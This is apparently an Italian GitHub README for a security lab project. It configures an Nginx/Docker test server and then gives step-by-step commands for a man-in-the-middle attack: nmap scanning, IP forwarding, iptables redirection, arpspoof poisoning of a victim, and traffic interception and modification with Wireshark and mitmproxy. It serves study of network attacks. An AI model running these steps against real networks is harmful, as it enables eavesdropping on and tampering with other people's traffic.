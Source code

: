 # Attacco Man-in-the-Middle tramite ARP spoofing
Questo progetto esplora tecniche di attacco Man-in-the-Middle tramite ARP spoofing, con l'obiettivo di intercettare, analizzare e modificare il traffico di rete tra un client e un server.

- [Configurazione del server](#1-configurazione-del-server)
- [Configurazione del MitM](#2-Configurazione-del-MitM)

Want to read this in [English](README_EN.md)?

## 1. Configurazione del server

### 1.1 Installazione di Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generazione del certificato self-signed
Creare una directory per i certificati SSL:

```
$ sudo mkdir -p /etc/nginx/ssl
```


Generare un certificato self-signed con OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Descrizione dei parametri**:
- `-x509`: crea un certificato in formato x509.
- `-nodes`: disabilita la richiesta di una passphrase per la chiave privata.
- `-days 365`: imposta la durata del certificato a 365 giorni.
- `-newkey rsa:2048`: genera una nuova chiave RSA a 2048 bit.

### 1.3 Configurazione di Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Aggiungere la seguente configurazione, sostituendo `<IP_addr>` con l'indirizzo IP del server:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Reindirizzamento da HTTP a HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifica e riavvio di Nginx
Verificare la configurazione e riavviare il servizio:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Avvio dei container Docker
Clonare la repository e avviare i container:

```
$ git clone https://github.com/SenapeDev/CySec.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Gestione della modalità HTTPS
Per attivare o disattivare HTTPS tramite Makefile:

```
$ make https-on
$ make https-off
```
- `https-on`: attiva il reindirizzamento verso HTTPS.
- `https-off`: disattiva il reindirizzamento HTTPS, tornando a HTTP.
---

## 2. Configurazione del MitM

### 2.1 Installazione di Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scansione della rete locale con Nmap
Per trovare gli indirizzi l'indirizzo IP dell'host che ospita il sito web all'interno della rete locale, eseguire:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Descrizione dei parametri**:
- `-sV` rileva i servizi attivi e tenta di identificare l’applicazione web in esecuzione.
- `--open` mostra solo gli host con porte aperte.
- `<IP_range>` è il range degli indirizzi IP in cui viene effettuata la scansione.

### 2.3 Abilitazione del packet forwarding
Abilitare il packet forwarding per consentire la ritrasmissione dei pacchetti tra server e vittima:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configurazione di iptables per la redirezione del traffico
Reindirizzare il traffico HTTP verso la porta 8080 (utilizzata da `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

Questo comando utilizza la tabella `nat` di iptables per redirigere il traffico destinato alla porta 80 all’indirizzo specificato, verso la porta 8080. Le modifiche non sono permanenti e saranno rimosse al riavvio.

### 2.5 Verifica delle regole impostate
Per verificare le regole `iptables` attive:

```
$ sudo iptables -t nat -L -v -n
```

Il comando elenca tutte le regole impostate nella tabella `nat` di iptables con dettagli (`-v`) e senza risoluzione di nomi (`-n`).

### 2.6 Installazione di dsniff
Installare `dsniff` per eseguire l’ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Esecuzione di ARP Poisoning
Utilizzare `arpspoof` per ingannare la vittima e farle credere di comunicare con il server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

Questo comando invia pacchetti ARP all'indirizzo IP della vittima (`<src_IP>`) per impostare l'indirizzo `<dest_IP>` (il server impersonato) come mittente, sfruttando l'interfaccia di rete specificata (`<interface>`).

### 2.8 Installazione di Wireshark
Per catturare e analizzare il traffico di rete, installare Wireshark:

```
$ sudo apt install wireshark -y
```


### 2.9 Intercettazione di pacchetti con Wireshark
Avviare Wireshark per catturare il traffico:

```
$ sudo wireshark
```

### 2.10 Installazione di mitmproxy
Installare `mitmproxy` per manipolare le richieste:

```
$ pip install mitmproxy
```

### 2.11 Installazione dello script per mitmproxy
```
$ git clone https://github.com/SenapeDev/CySec.git
```
### 2.12 Intercettazione e modifica delle richieste con mitmproxy
Eseguire `mitmproxy` in modalità trasparente per intercettare e modificare il traffico HTTP:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

Questo comando avvia `mitmproxy` in modalità trasparente (`--mode transparent`) per intercettare il traffico senza configurazioni sul client.
